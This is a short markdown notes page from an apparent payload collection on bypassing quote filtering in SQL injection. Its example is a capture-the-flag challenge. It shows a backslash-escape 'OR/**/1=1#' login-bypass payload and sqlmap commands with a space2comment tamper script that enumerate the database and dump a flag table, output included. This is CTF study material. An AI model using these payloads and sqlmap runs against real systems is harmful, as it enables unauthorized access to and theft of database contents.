 ```yaml
---
layout: default
title: SQL injection bypass quote
nav_order: 1
parent: Payloads
---
```


# SQL injection bypass quote
{: .no_toc }

---

Need to read:
- <https://mukarramkhalid.com/without-quotes-string-based-sql-injection/>
- <https://github.com/lngthvinh/JUNIOR-HACKING-TALENT-2021/tree/main/%5BChung%20K%E1%BA%BFt%5D%20Web/400%20-%20C%E1%BB%ADa%20h%C3%A0ng%20%C4%91%E1%BB%93%20ch%C6%A1i%20Qu%E1%BA%ADn%204>

Example: JUNIOR HACKING TALENT 2021 - Cửa hàng đồ chơi Quận 4

Bypass Payload

```mysql
select username from users where username='\' and password='OR/**/1=1#'
```

Final Payload

```
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py --dbs
...
available databases [2]:
[*] information_schema
[*] myDB
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB --tables
...
[7 tables]
+---------------+
| authors       |
| flag_304ad593 |
| posts         |
| roles         |
| user_post     |
| user_role     |
| users         |
+---------------+
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB -T flag_304ad593 --dump
...
[1 entry]
+-------------------------------------+
| flag_3e53dc                         |
+-------------------------------------+
| CTF{pleAs3_doNt_r3invent_th3_whe3L} |
+-------------------------------------+
...
```
